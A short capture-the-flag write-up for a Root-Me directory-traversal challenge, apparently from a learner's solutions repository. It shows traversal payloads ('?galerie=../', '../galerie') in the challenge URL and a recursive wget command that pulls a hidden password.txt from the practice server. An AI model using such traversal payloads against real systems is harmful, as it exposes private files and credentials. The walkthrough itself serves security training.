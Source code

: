 # Challenge27: Directory traversal

## Solution

1. Now you need to open Burp Suite, this challenge quite easy :)

2. Now, try to find some hint with clicking the Navbar:
    + Emotes
    + Apps
    + Devices
    + ...

3. Notice the URL path :)):

```
When clicking app:

http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=apps
```

4. So now, we just directly change the path on the URL, like:

```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=../
```

5. There will be __galerie__ folder display as an image, now try to go to that folder:

```
http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=../galerie
```

6. Now, you will see all the folder listed on the Navbar and 1 sus folder __86hwnX2r__. Now traverse to that folder :)

7. There will be a password.txt file displayed on the screen but we can not do anything with it even traverse to it.

8. Easiest way is to use the __wget__ cmd to download whole site :)

```
wget -r http://challenge01.root-me.org/web-serveur/ch15/ch15.php?galerie=../galerie
```

9. Go to the password.txt and submit the flag.
